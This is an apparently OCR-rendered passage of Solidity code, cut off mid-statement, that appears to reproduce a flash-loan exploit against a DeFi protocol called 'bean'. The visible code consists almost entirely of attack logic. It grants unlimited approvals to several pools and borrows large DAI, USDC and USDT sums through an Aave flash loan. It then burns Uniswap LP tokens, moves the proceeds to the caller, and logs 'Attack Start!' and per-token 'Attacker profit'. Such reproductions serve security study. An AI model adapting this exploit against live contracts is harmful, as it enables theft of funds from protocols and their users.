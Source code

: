 ```solidity
        IERC20(lusdAddress).approve(lusdCrvAddress, type(uint).max);
        IERC20(crvDTC).approve(beanCrvAddress, type(uint).max);
        IERC20(beanTokenAddress).approve(beanLusdAddress, type(uint).max);
        IERC20(lusdAddress).approve(beanLusdAddress, type(uint).max);
        IERC20(usdcAddress).approve(beanProtocolAddress, type(uint).max);
        IERC20(beanCrvAddress).approve(beanProtocolAddress, type(uint).max);
        IERC20(beanLusdAddress).approve(beanProtocolAddress, type(uint).max);
        IERC20(beanTokenAddress).approve(beanProtocolAddress, type(uint).max);
        IERC20(usdcAddress).approve(aavePoolAddress, type(uint).max);
        IERC20(daiAddress).approve(aavePoolAddress, type(uint).max);
        IERC20(usdtAddress).approve(aavePoolAddress, type(uint).max);
        
        IERC20(beanTokenAddress).approve(beanCrvAddress, type(uint).max);
        IERC20(lusdAddress).approve(beanCrvAddress, type(uint).max);
        uint256 usdtBefore = IERC20(usdtAddress).balanceOf(msg.sender);
        uint256 usdcBefore = IERC20(usdcAddress).balanceOf(msg.sender);
        uint256 daiBefore = IERC20(daiAddress).balanceOf(msg.sender);
        uint256 wethBefore = IERC20(weth).balanceOf(msg.sender);
        uint256 beanBefore = IERC20(beanTokenAddress).balanceOf(msg.sender);

        console.log("Attack Start!");
        {
        address[] memory addrArray = new address[](3);
        addrArray[0] = daiAddress;
        addrArray[1] = usdcAddress;
        addrArray[2] = usdtAddress;
        uint256[] memory amounts = new uint256[](3);
        amounts[0] = 350*1e24;
        amounts[1] = 500*1e12;
        amounts[2] = 150*1e12;
        uint256[] memory types = new uint256[](3);
        IAAVEPool(aavePoolAddress).flashLoan(address(this),  addrArray,  amounts, types, address(this), new bytes(0), 0);
        }

        IERC20(wethBeanUniPairAddress).transfer(wethBeanUniPairAddress, IERC20(wethBeanUniPairAddress).balanceOf(address(this)));
        IUniswapV2Pair(wethBeanUniPairAddress).burn(address(this));

        IERC20(daiAddress).transfer(msg.sender, IERC20(daiAddress).balanceOf(address(this)));
        IERC20(usdcAddress).transfer(msg.sender, IERC20(usdcAddress).balanceOf(address(this)));
        IERC20(wethAddress).transfer(msg.sender, IERC20(wethAddress).balanceOf(address(this)));
        IERC20(usdtAddress).transfer(msg.sender, IERC20(usdtAddress).balanceOf(address(this)));
        IERC20(beanTokenAddress).transfer(msg.sender, IERC20(beanTokenAddress).balanceOf(address(this)));
        console.log("Attack complete!!!");
        uint usdtProfit = (IERC20(usdtAddress).balanceOf(msg.sender) - usdtBefore)/(10**IERC20(usdtAddress).decimals());
        uint daiProfit  = (IERC20(daiAddress).balanceOf(msg.sender) - daiBefore)/(10**IERC20(daiAddress).decimals());
        uint usdcProfit = (IERC20(usdcAddress).balanceOf(msg.sender) - usdcBefore)/(10**IERC20(usdcAddress).decimals());
        uint beanProfit = (IERC20(beanTokenAddress).balanceOf(msg.sender) - beanBefore)/(10**IERC20(beanTokenAddress).decimals());
        uint wethProfit = (IERC20(weth).balanceOf(msg.sender) - wethBefore)/(10**IERC20(weth).decimals());
        console.log("Attacker profit:");
        console.log("usdt:  %s USD", usdtProfit);
        console.log("dai:   %s USD", daiProfit);
        console.log("usdc:  %s USD", usdcProfit);
        console.log("bean:  %s USD", beanProfit);
        console.log("weth:  %s", wethProfit);
        console.log("total: %s USD and %s ETH", 
```